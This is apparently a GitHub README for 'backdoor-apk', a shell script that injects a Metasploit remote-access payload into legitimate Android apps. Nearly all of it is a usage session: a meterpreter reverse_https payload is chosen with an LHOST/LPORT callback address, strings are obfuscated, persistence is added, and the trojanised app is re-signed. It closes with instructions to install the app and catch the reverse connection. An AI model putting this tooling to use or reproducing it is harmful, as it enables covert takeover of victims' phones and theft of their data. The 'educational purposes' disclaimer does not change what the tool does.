# backdoor-apk
backdoor-apk is a shell script that simplifies the process of adding a backdoor to any Android APK file. Users of this shell script should have working knowledge of Linux, Bash, Metasploit, Apktool, the Android SDK, smali, etc. This shell script is provided as-is without warranty of any kind and is intended for educational purposes only.

Usage:

```
root@kali:~/Android/evol-lab/BaiduBrowserRat# ./backdoor-apk.sh BaiduBrowser.apk 
          ________
         / ______ \
         || _  _ ||
         ||| || |||          AAAAAA      PPPPPPP    KKK  KKK
         |||_||_|||         AAA  AAA     PPP  PPP   KKK KKK
         || _  _o|| (o)    AAAA  AAAA    PPP  PPPP  KKKKKK
         ||| || |||       AAAAAAAAAAAA   PPPPPPPP   KKK KKK
         |||_||_|||      AAAA      AAAA  PPPP       KKK  KKK
         ||______||     AAAA        AAAA PPPP       KKK  KKKK
        /__________\
________|__________|__________________________________________
       /____________\
       |____________|             Dana James Traversie

[*] Running backdoor-apk.sh v0.1.4 on Tue Sep 20 12:00:24 EDT 2016
[+] Android payload options:
1) meterpreter/reverse_http   4) shell/reverse_http
2) meterpreter/reverse_https  5) shell/reverse_https
3) meterpreter/reverse_tcp    6) shell/reverse_tcp
[?] Please select an Android payload option: 2
[?] Please enter an LHOST value: 10.6.9.31
[?] Please enter an LPORT value: 443
[*] Generating RAT APK file...done.
[+] Using payload: android/meterpreter/reverse_https
[+] Handle the reverse connection at: 10.6.9.31:443
[*] Decompiling RAT APK file...done.
[*] Decompiling original APK file...done.
[*] Merging permissions of original and payload projects...done.
[*] Running proguard on RAT APK file...done.
[*] Decompiling obfuscated RAT APK file...done.
[*] Creating new directories in original project for RAT smali files...done.
[*] Copying RAT smali files to new directories in original project...done.
[*] Fixing RAT smali files...done.
[*] Obfuscating const-string values in RAT smali files...done.
[*] Locating smali file to hook in original project...done.
[*] Adding hook in original smali file...done.
[*] Adding persistence hook in original project...done.
[*] Recompiling original project with backdoor...done.
[*] Generating RSA key for signing...done.
[*] Signing recompiled APK...done.
[*] Verifying signed artifacts...done.
[*] Aligning recompiled APK...done.
root@kali:~/Android/evol-lab/BaiduBrowserRat#
```

The recompiled APK will be found in the 'original/dist' directory. Install the APK on a compatible Android device, run it, and handle the meterpreter connection at the specified IP and port.
